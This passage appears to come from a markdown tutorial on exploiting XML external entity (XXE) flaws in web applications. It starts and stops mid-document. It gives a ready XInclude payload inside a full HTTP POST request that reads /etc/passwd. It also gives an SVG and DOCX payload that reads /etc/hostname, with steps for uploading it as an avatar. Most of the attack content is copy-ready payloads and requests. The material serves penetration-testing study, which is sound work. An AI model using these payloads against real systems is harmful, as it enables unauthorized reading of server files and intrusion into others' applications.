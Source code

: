 4) So, we can simple check by putting out `XInclude` payload in one of the POST body parameter.

       `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
   
5) So the final request look like..

   	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
	   ...
	   ...
	   Connection: close
	   ...  
	   productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=2`
---
### 7 - Exploiting XXE via image file upload 

1) Consider we're testing an blog/social media web application in which application has a feature of uploading avatars/images or Documents.

2) We can make malicious XML-based formats such as `DOCX`(office_document_formats) and `SVG` (Image_format) to test for XXE.

       <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
       <svg width="128px" height="128px"    xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
  
3) Save the above payload as `xxe.svg` and `xxe.docx` , and upload to reach hidden attack surface for XXE.
---
### 8 - Exploiting XXE to retrieve data by repurposing a local DTD

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and the request goes like this ...

	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
	   ...
	   ...
	   Connection: close
       ...
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
		   <productId>2</productId>
		   <storeId>1</storeId>
	   </stockCheck>

